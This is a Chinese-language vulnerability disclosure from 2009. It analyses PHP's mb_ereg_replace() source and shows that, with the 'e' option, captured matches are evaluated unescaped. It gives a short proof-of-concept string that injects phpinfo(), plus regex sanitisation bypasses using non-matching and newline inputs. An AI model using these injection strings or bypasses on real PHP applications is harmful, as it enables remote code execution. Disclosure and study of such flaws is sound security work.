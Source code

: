 ### mb_ereg(i)_replace()代码注射漏洞及其延伸出的正则应用安全问题
> ryat#wolvez.org date:2009-04-30

#### 一、描叙
mb_ereg_replace()是支持多字节的正则表达式替换函数,函数原型如下:

> string mb_ereg_replace  ( string $pattern  , string $replacement  , string $string  [, string $option= "msr"  ] )

当指定mb_ereg(i)_replace()的option参数为e时,replacement参数[在适当的逆向引用替换完后]将作为php代码被执行,但php在处理这一过程中,存在安全隐患,可能导致绕过程序的逻辑执行任意代码,另外程序员对正则匹配替换认识不够[包括preg_replace等函数],容易饶过安全限制,导致安全漏洞.

#### 二、分析

mb_ereg_replace()的代码:
``` c
// php_mbregex.c
PHP_FUNCTION(mb_ereg_replace)
{
	_php_mb_regex_ereg_replace_exec(INTERNAL_FUNCTION_PARAM_PASSTHRU, 0);
}
...
static void _php_mb_regex_ereg_replace_exec(INTERNAL_FUNCTION_PARAMETERS, OnigOptionType options)
{
...
	smart_str out_buf = { 0 };
	smart_str eval_buf = { 0 };
	smart_str *pbuf;
...
		if (zend_parse_parameters(ZEND_NUM_ARGS() TSRMLS_CC, "Zss|s",
									&arg_pattern_zval,
									&replace, &replace_len,
									&string, &string_len,
									&option_str, &option_str_len) == FAILURE) {
			RETURN_FALSE;
		}
...
	re = php_mbregex_compile_pattern(arg_pattern, arg_pattern_len, options, MBSTRG(current_mbctype), syntax TSRMLS_CC);
// 编译模式,编译后的模式存储在re_pattern_buffer结构
...
	if (eval) {
		pbuf = &eval_buf;
		description = zend_make_compiled_string_description("mbregex replace" TSRMLS_CC);
	} else {
		pbuf = &out_buf;
		description = NULL;
// *pbuf,eval_buf,out_buf都是smart_str结构,结构说明如下:
// typedef struct {
// 	char *c;
// 	size_t len;
// 	size_t a;
// } smart_str;
	}

	/* do the actual work */
	err = 0;
	pos = string;
	string_lim = (OnigUChar*)(string + string_len);
	regs = onig_region_new();
// 分配内存,初始化re_registers结构,用于存储模式匹配值[num_regs成员为子模式匹配值个数,beg成员为模式及子模式匹配值的开始位,end成员为结束位]
	while (err >= 0) {
		err = onig_search(re, (OnigUChar *)string, (OnigUChar *)string_lim, pos, (OnigUChar *)string_lim, regs, 0);
// 依据编译好的模式进行匹配
...
			/* copy the part of the string before the match */
			smart_str_appendl(&out_buf, pos, (size_t)((OnigUChar *)(string + regs->beg[0]) - pos));
// 添加模式匹配值开始前的部分[用于函数的返回值]
			/* copy replacement and backrefs */
			i = 0;
			p = replace;
			while (i < replace_len) {
				int fwd = (int) php_mb_mbchar_bytes_ex(p, enc);
				n = -1;
				if ((replace_len - i) >= 2 && fwd == 1 &&
					p[0] == '\\' && p[1] >= '0' && p[1] <= '9') {
					n = p[1] - '0';
				}
				if (n >= 0 && n < regs->num_regs) {
					if (regs->beg[n] >= 0 && regs->beg[n] < regs->end[n] && regs->end[n] <= string_len) {
						smart_str_appendl(pbuf, string + regs->beg[n], regs->end[n] - regs->beg[n]);
// 如果使用逆向引用且存在相应的[子]模式匹配值,就调用smart_str_appendl添加[子]模式匹配值[调用memcpy把值copy到pbuf->c+pbuf->len]
					}
				} else {
					smart_str_appendl(pbuf, p, fwd);
					p += fwd;
					i += fwd;
				}
			}
...
			if (eval) {
				zval v;
				/* null terminate buffer */
				smart_str_appendc(&eval_buf, '\0');
				/* do eval */
				if (zend_eval_string(eval_buf.c, &v, description TSRMLS_CC) == FAILURE) {
					efree(description);
					php_error_docref(NULL TSRMLS_CC,E_ERROR, "Failed evaluating code: %s%s", PHP_EOL, eval_buf.c);
					/* zend_error() does not return in this case */
				}

// 如果option指定为e,就调用zend_eval_string处理eval_buf.c,也就是pbuf->c[先编译成opcode,在调用zend_execute处理opcode]
//上面的代码mb_ereg_replace对所捕获的子模式的匹配值没有安全处理,直接调用zend_eval_string执行replace后的值.
//这样将引来一些安全隐患:比如可以引入'来闭合之前的' ,另外我们也可以引入nullbyte来截断后面的代码[zend_eval_string是not binary safe的]:)

为了对比说明这个安全漏洞我们同样来分析下preg_replace()在/e下执行php代码的处理过程:

//preg_replace()
...
			if (eval) {
				eval_result_len = preg_do_eval(replace, replace_len, subject,
											   offsets, count, &eval_result TSRMLS_CC);
// 在e修正符模式下调用preg_do_eval
...
static int preg_do_eval(char *eval_str, int eval_str_len, char *subject,
						int *offsets, int count, char **result TSRMLS_DC)
{
...
	smart_str    code = {0};
	
	eval_str_end = eval_str + eval_str_len;
	walk = segment = eval_str;
	walk_last = 0;

	while (walk < eval_str_end) {
		/* If found a backreference.. */
		if ('\\' == *walk || '$' == *walk) {
			smart_str_appendl(&code, segment, walk - segment);
			if (walk_last == '\\') {
				code.c[code.len-1] = *walk++;
				segment = walk;
				walk_last = 0;
				continue;
			}
			segment = walk;
			if (preg_get_backref(&walk, &backref)) {
				if (backref < count) {
					/* Find the corresponding string match and substitute it
					   in instead of the backref */
					match = subject + offsets[backref<<1];
					match_len = offsets[(backref<<1)+1] - offsets[backref<<1];
					if (match_len) {
						esc_match = php_addslashes_ex(match, match_len, &esc_match_len, 0, 1 TSRMLS_CC);
// 如果使用逆向引用且存在相应的[子]模式匹配值,就对所捕获的[子]模式匹配值调用php_addslashes_ex
...
				smart_str_appendl(&code, esc_match, esc_match_len);
// 添加[子]模式匹配值
...
	smart_str_appendl(&code, segment, walk - segment);
	smart_str_0(&code);

	compiled_string_description = zend_make_compiled_string_description("regexp code" TSRMLS_CC);
	/* Run the code */
	if (zend_eval_string(code.c, &retval, compiled_string_description TSRMLS_CC) == FAILURE) {
		efree(compiled_string_description);
		php_error_docref(NULL TSRMLS_CC,E_ERROR, "Failed evaluating code: %s%s", PHP_EOL, code.c);
		/* zend_error() does not return in this case */
	}
// 调用zend_eval_string处理code.c
```

preg_replace()函数一样对所捕获的模式匹配值调用php_addslashes_ex.

#### 三、测试代码:
``` php
<?php
//mb_ereg(i)_replace() evaluate replacement string vulnerability
function ryat() {}

$str = '\', phpinfo(), \'';
mb_ereg_replace('^(.*)$', 'ryat(\'\1\')', $str, 'e');

?>
```

#### 四、其延伸出的正则应用安全问题

从上面对mb_ereg_replace()代码分析看看出mb_ereg_replace()函数整个处理过程可以简单描述为:

检查参数,编译pattern,依据编译后的pattern对string进行匹配,如果存在匹配值[没有模式匹配值,则把string作为返回值并返回],把string中模式匹配值前面的部分添加到返回值,对模式匹配值进行替换,如果replacement中使用逆向引用且存在相应的[子]模式匹配值,替换replacement中的逆向引用[注意这里没对替换的模式及子模式匹配值做任何处理,另外这里其实并非替换,具体处理过程请看上面的源码].如果option没有指定e,就把replacement添加到返回值;如果指定e,把replacement作为php代码执行,并把代码执行后的返回值添加到返回值.把string中模式匹配值后面的部分添加到返回值.返回返回值.

通过对mb_ereg_replace()正则替换流程的分析及很多的应用程序的代码分析,发现很多程序员对正则表达式替换函数[包括preg_replace等函数]的处理过程不了解可能导致一些逻辑错误.

测试如下代码:
``` php
<?php
$onlineip = 'ryat';
echo $onlineip = preg_replace("/^([\d\.]+).*/", "\\1", $onlineip);
?>
```
上面的代码直接输出ryat了,这个是由于正则替换时,当不匹配时,就返回原值的了.
  
来思考下这个问题的修补,比如:
``` php
<?php
$onlineip = 'ryat';
echo $onlineip = preg_replace("/^([\d\.]*).*/", "\\1", $onlineip);
?>
```
输出为空了,因为这个正则可以匹配$onlineip,所以这里会返回\1对应的子模式匹配值,好像完美的fix了?其实还可以绕过: 
``` php
<?php
$onlineip = "\nryat";
// $onlineip = "ryat\nryat";
echo $onlineip = preg_replace("/^([\d\.]*).*/", "\\1", $onlineip);
?>
```

因为在没有用s模式修正符下.是不匹配的\n的,所以\nryat部分不被正则匹配,将会作为返回值[或者返回值的一部分]返回:)

#### 五、实际应用
暂缺
  
